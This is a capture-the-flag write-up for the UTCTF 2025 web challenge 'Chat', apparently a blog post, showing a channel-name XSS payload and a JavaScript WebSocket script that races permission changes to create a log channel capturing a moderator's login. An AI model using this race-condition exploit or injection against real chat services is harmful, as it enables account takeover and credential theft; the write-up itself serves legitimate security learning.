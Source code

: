 ```yaml
---
title: Chat
description: |
  A chat server with some 'interesting' features! I wonder how many of them are secure...

  (Send /help to get started.)

  By Alex (.alex_._ on discord)
  http://challenge.utctf.live:5213 
categories: ["ctf", "UTCTF 2025"]
tags: ["web"]
media_subpath: "/assets/posts/2025/utctf/chat"
---
```


First, we need to register:

![](1.png)

There are 3 default channels. We can send messages:

![](2.png)

`/help` reveals other useful commands. Notice that the website communicates with the server via WebSockets.

![](3.png)

The target is to log in as a moderator. The moderator periodically announces the time:

![](4.png)

There is also an XSS unrelated to the exploit path. The `onclick` handler for the channel list (which joins a channel
when clicked) can be exploited to run arbitrary JavaScript.

![](5.png)

A channel like `');alert(1)//` triggers the exploit when clicked, as the HTML looks like this:

![](6.png)

But, again, this is unrelated. 

We have some interesting commands: we can change the CSS of the username (which will be reflected for everyone in 
the chat), but it's not relevant. We also have the `/set` command which can set multiple properties:

![](7.png)

`channel.mode` can either be `normal` (default) or `log`, which seems like an interesting attack path. However, setting
it to `log` requires setting the channel to `hidden` and `admin-only`. We are not admins, so if we set it to `admin-only`
we cannot access the channel anymore. Furthermore, setting it to `admin-only` forcibly closes our WebSocket connection.

However, WebSocket messages are sent asynchronously. What if we could make a channel `log`, then remove the `admin-only`
property immediately after, before the WebSocket connection is closed?

```js
const ws = new WebSocket("ws://challenge.utctf.live:5213/socket", {
    headers: {
        Cookie: "web-chat-userid=PMDqpEyuUTYr8jhP7W5kUsbuvKPALTw8lHvQwTAAAeN9BssRFSvqL0OftUCMzQY%3D"
    }
});
ws.addEventListener("open", open);
ws.addEventListener("message", message);

function message(message) {
    console.log(message.data);
}

function open() {
    const channelName = `channelABCDE`;
    ws.send(`/create ${channelName}`);
    ws.send(`/join ${channelName}`);
    ws.send("/set channel.hidden true");
    ws.send("/set channel.admin-only true");
    ws.send("/set channel.mode log");
    ws.send("/set channel.admin-only false");
}
```

The exploit worked: we get two messages that the `admin-only` property has been updated:

![](8.png)

We can `/join` the channel in the UI. On `log` channels we receive any command run by any user, including the moderator's login!

![](9.png)

We just need to log in as the moderator, join `mod-info` and view the channel details with `/channel` to get the flag:

![](10.png)


